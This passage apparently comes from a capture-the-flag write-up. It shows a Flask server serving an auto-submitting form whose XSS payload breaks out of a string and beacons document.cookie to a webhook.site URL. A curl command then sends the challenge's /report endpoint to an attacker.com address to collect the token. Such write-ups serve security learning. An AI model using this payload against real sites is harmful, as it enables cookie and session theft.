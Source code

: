 ![saymyname-webhook.png](images/25-pwnmequals/saymyname-webhook.png)

Now, we need to host a remote server to do this POST to exfiltrate the token.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def index():
    return '''
    <!DOCTYPE html>
    <html>
    <head>
        <title>XSS Test</title>
    </head>
    <body>
        <h2>XSS Exploit</h2>

        <form id="post-form" method="POST" action="http://127.0.0.1:5000/your-name#behindthename-redirect">
            <input type="hidden" name="name" value='solopieandsealldev\\";navigator.sendBeacon(`https${String.fromCharCode(58)}//webhook.site/9609b1f4-xxxx-xxxx-xxxx-177da4f9d6e1/?c=${document.cookie}`);//'>
            <input type="submit" value="Submit">
        </form>

        <script>
            document.getElementById('post-form').submit();
        </script>
    </body>
    </html>
    '''

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

We can then send to the `/report` URI our server and get the token back on `webhook.site`!

```bash
$ curl http://localhost:5000/report\?url\=https://attacker.com
```
